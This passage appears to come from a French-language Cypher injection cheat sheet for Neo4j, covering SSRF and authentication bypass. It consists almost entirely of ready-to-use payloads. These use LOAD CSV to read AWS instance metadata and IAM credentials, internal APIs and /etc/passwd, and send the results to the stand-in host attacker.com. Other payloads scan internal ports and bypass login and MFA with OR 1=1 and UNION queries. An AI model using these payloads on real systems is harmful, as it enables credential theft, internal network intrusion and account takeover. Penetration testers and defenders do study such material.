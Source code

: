 #### 7.3 Server-Side Request Forgery (SSRF)

**☁️ Métadonnées Cloud (AWS)**

```cypher
-- 🔍 Reconnaissance métadonnées AWS
' LOAD CSV FROM 'http://169.254.169.254/latest/meta-data/' AS meta WITH meta[0] AS endpoint LOAD CSV FROM 'https://attacker.com/aws/meta/' + endpoint AS r RETURN r //

-- 🔑 Récupération des credentials IAM
' LOAD CSV FROM 'http://169.254.169.254/latest/meta-data/iam/security-credentials/' AS roles WITH roles[0] AS role LOAD CSV FROM 'http://169.254.169.254/latest/meta-data/iam/security-credentials/' + role AS creds LOAD CSV FROM 'https://attacker.com/aws/creds/' + creds[0] AS r RETURN r //

-- 🏷️ Instance metadata
' LOAD CSV FROM 'http://169.254.169.254/latest/meta-data/instance-id' AS instance LOAD CSV FROM 'https://attacker.com/aws/instance/' + instance[0] AS r RETURN r //
```

**🔍 Reconnaissance Interne**

```cypher
-- 🌐 Scan de ports internes (via timing)
' LOAD CSV FROM 'http://192.168.1.1:22' AS r RETURN r //     -- SSH
' LOAD CSV FROM 'http://192.168.1.1:3389' AS r RETURN r //   -- RDP  
' LOAD CSV FROM 'http://192.168.1.1:80' AS r RETURN r //     -- HTTP
' LOAD CSV FROM 'http://localhost:8080/admin' AS r RETURN r // -- Interface admin

-- 📁 Accès aux endpoints internes
' LOAD CSV FROM 'http://internal-api.company.com/api/users' AS users LOAD CSV FROM 'https://attacker.com/internal-api/' + users[0] AS r RETURN r //

-- 🗂️ Lecture de fichiers via file://
' LOAD CSV FROM 'file:///etc/passwd' AS passwd LOAD CSV FROM 'https://attacker.com/files/' + passwd[0] AS r RETURN r //
```

#### 7.4 Bypass d'Authentification

**🔓 Techniques Classiques**

```cypher
-- 🎯 Bypass login simple
Original: MATCH (u:User) WHERE u.username = 'admin' AND u.password = 'USER_INPUT' RETURN u
Payload: ' OR 1=1 RETURN u //
Final: MATCH (u:User) WHERE u.username = 'admin' AND u.password = '' OR 1=1 RETURN u //' RETURN u

-- 🔑 Bypass avec condition utilisateur
Original: MATCH (u:User) WHERE u.email = 'USER_EMAIL' AND u.password = 'USER_PASSWORD' RETURN u  
Payload email: admin@company.com' OR u.role = 'admin' WITH u MATCH (admin:User) WHERE admin.role = 'admin' RETURN admin //
```

**🎭 Usurpation d'Identité**

```cypher
-- 👑 Récupération compte admin
' UNION MATCH (admin:User) WHERE admin.role = 'admin' RETURN admin AS u //

-- 🔓 Bypass multi-facteurs (si token stocké en base)
' UNION MATCH (u:User)-[:HAS_TOKEN]->(token:MFAToken) WHERE token.valid = true RETURN u //
```
